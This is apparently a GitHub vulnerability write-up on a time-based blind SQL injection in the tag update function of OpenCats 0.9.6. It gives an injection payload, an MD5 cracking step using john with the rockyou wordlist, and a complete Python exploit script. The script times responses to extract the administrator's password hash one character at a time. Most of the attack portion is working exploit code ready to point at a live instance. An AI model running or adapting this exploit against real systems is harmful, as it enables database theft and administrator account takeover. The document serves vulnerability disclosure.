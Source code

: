 # SQL injection vulnerability in OpenCats 'Tag' update functionality.

OpenCats version 0.9.6 PHP7.2 suffers from SQL injection vulnerability. This allows attackers control over the application's database.

User has control over tag_id variable, which allows SQL injection in UPDATE statement via time-based/blind techniques.

Application builds the following query:  
`UPDATE tag SET title = 'Title', description = 'Description' WHERE tag_id = XXX AND site_id = 1;`

User has control over XXX part.  

`1337 OR 1337=(select IF(substr(database(),1,1)='a',(select sleep(3)), (select sleep(1)))))`  

With this payload, application will sleep for 3 seconds for every entry inside original table if the database() query result starts with 'a', otherwise
it will sleep for one second.

With this time-based blind technique, attacker is able to exfiltrate any information from the database by querying many YES/NO questions 
to the database and intelligently measuring response times.

# POC
This proof of concept exfiltrates administrator user's password hash:   
`(select password from user where user_id=1)`

![PoC](https://user-images.githubusercontent.com/57464251/193683971-60bceb48-21fe-49fb-8a1d-d522383b8ec0.png)

### Bonus, let's crack the hash![Capture](https://user-images.githubusercontent.com/57464251/193794473-ed0a2f71-e268-464b-ac09-e352c79b652e.PNG)

`echo "password:21232f297a57a5a743894a0e4a801fc3" > hash.txt`  
`john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt`  

![crack](https://user-images.githubusercontent.com/57464251/193794575-b6677cdd-4f13-41ab-8299-5b7ca7616e81.PNG)


# xploit.py!

```python
import requests
import string
import sys

def inRange(rTime, averageTime, sleepAmount):
    if(rTime > sleepAmount and rTime < rTime + (averageTime*20/100) and rTime > rTime - (averageTime*20/100)):
        return True
    else: return False

headers = {}
proxies = {}
#proxies["http"] = "http://127.0.0.1:8080"

#Login and get session cookie..
#Change this
headers["Cookie"] = "CATS=cl2201l24aihqlnch0jgnr4pd2"
url = "http://192.168.203.135/opencats/index.php?m=settings&a=ajax_tags_upd"

#Prepare Content-Type for POST request compability
headers["Content-Type"] = "application/x-www-form-urlencoded"
#Prepare POST parameter 'tag_id'
postdata = "tag_id=PWN&tag_title=test"

#Change this depending on the endpoint
tempPayload = "1 OR 1=(sleep(3))"

print("Sending few request to determine average response time...")

timeSum = 0
numberOfBaselineRequests = 5
for i in range(numberOfBaselineRequests):
    try:
        rTest = requests.post(url, headers = headers, data=postdata.replace('PWN','1337'), proxies = proxies) 
        timeSum  += rTest.elapsed.total_seconds()
        if('<form name="loginForm"' in rTest.text):
            print("Session cookie not valid, change it inside .py")
            sys.exit(-1)
    except:
        print("Some exception ocurred while sending or receiving data from the application. Make sure IP is good. Exiting..")
        sys.exit(-1)

averageTime = timeSum/numberOfBaselineRequests
print("Average response time for " + str(numberOfBaselineRequests) + " requests is : " + str(averageTime))

print("\nTrying to inject sleep(3)")
r = requests.post(url, headers = headers, data = postdata.replace('PWN',tempPayload), proxies = proxies)
rTime = r.elapsed.total_seconds()
print("Response time: " + str(rTime))

if(inRange(rTime, averageTime, 3)):
    print("\n[+] Application is vulnerable to SQL injection...")

#Getting value for false statement -> sleep(1)
tempPayload2 = "1 or 1=(sleep(0.1))"
r2 = requests.post(url, headers = headers, data = postdata.replace('PWN',tempPayload2), proxies = proxies)
t_sleep_one = r2.elapsed.total_seconds()

tempPayload3 = "1 or 1=(sleep(0.3))"
r3 = requests.post(url, headers = headers, data=postdata.replace('PWN', tempPayload3), proxies = proxies)
t_sleep_three = r3.elapsed.total_seconds()

print("False statement time: " + str(t_sleep_one))
print("True statement time: " + str(t_sleep_three) + "\n")

length = 0
exfilQuery = "1 OR 1=(IF(length((select password from user where user_id=1))='XXX',sleep(0.3),sleep(0.1)))"
#Determine length of the result that we want. i.e select passwrod from user query...
print("Determining the result length of our query...")

while(True):
    q = exfilQuery.replace('XXX', str(length))
    r = requests.post(url, headers = headers, data = postdata.replace('PWN', q))
    time = r.elapsed.total_seconds()

    #If sleep(3) gets executed, we have correct length
    if(time > (t_sleep_one+(t_sleep_one*20/100))):
        print("Got length " + str(length))
        break
    
    length += 1
    if(length == 1000):
        break
    
if(length == 0 or length == 1000):
    print("Something is wrong. Exiting...")
    sys.exit(-1)
else: print("Length of '(select password from user where user_id=1)' query: " + str(length))

#OK----|
alphanumerics = list(string.ascii_lowercase + string.digits)
exfilQuery = "1 OR 1=(IF(substr((select password from user where user_id=1),YYY,1) = 'XXX',sleep(0.3), sleep(0.1)))"

data = []
print("Exfiltrating data. Query: (select password from user where user_id=1). Patience...")

for i in range(length):
    for item in alphanumerics:
        q = exfilQuery.replace('XXX',str(item))
        q = q.replace('YYY',str(i+1))
        r = requests.post(url, headers = headers, data = postdata.replace('PWN',q), proxies = proxies)
        time = r.elapsed.total_seconds()
        #print(str(time) + "\n")
        if(time > (t_sleep_one+(t_sleep_one*20/100))):
            print(str(i+1) + ". Letter = " + item)
            data.append(item)
            break

print("(select password from user where user_id=1) -> " + "".join(data))
```
